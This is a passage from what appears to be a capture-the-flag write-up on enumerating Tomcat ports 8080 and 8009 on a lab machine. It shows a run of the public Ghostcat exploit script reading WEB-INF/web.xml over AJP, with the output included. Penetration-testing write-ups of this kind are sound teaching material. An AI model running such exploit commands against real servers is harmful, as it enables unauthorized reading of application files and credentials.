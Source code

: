### Tomcat - TCP 8080

Visiting the site at `http://10.10.10.55:8080` just returns a 404:

![image-20210513172136703](https://0xdfimages.gitlab.io/img/image-20210513172136703.png)

I can check the Tomcat manager page at `/manager/html`, but it wants username and password:

![image-20210513172356495](https://0xdfimages.gitlab.io/img/image-20210513172356495.png)

None of the defaults work.

I did run [FeroxBuster](https://github.com/epi052/feroxbuster) against the site, and it returned a lot, but nothing particularly interesting. It’s all default Tomcat stuff, and all requires credentials.

### Tomcat AJP - TCP 8009

TCP 8009 is a default Tomcat port, and it gives access to the same kind of stuff that I would get with `/manager/html` on 8080, but using a binary protocol instead of HTTP. Hacktricks has a post on [Pentesting AJP](https://book.hacktricks.xyz/pentesting/8009-pentesting-apache-jserv-protocol-ajp), but there’s not a ton here.

I did play with the [ghostcat script](https://www.exploit-db.com/exploits/48143) a bit to see if I could exfil files, and I could read the `WEB-INF/web.xml` like in the example:

```

oxdf@parrot$ python2 ghostcat.py -p 8009 -f WEB-INF/web.xml 10.10.10.55
Getting resource at ajp13://10.10.10.55:8009/asdf
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!--
...[snip]...
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_3_1.xsd"
  version="3.1"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to Tomcat
  </description>

</web-app>

```

Still, there’s not much of interest in that folder, and trying to read outside that folder fails.

### HTTP - TCP 60000

